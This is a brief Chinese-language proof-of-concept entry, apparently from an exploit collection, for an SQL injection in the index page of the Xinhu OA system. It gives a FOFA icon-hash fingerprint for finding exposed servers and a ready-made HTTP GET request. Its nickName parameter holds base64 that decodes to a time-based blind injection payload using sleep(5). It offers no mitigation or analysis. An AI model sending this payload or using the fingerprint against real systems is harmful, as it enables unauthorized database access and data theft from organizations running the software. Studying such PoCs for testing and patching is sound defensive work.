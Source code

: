 # 信呼OA系统index存在SQL注入漏洞



## fofa

```java
icon_hash="1652488516"
```

## poc

```java
GET /index.php?m=openmodhetong|openapi&d=task&a=data&ajaxbool=0&nickName=MScgYW5kIHNsZWVwKDUpIw== HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
```

![image-20240803223232860](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408032232926.png)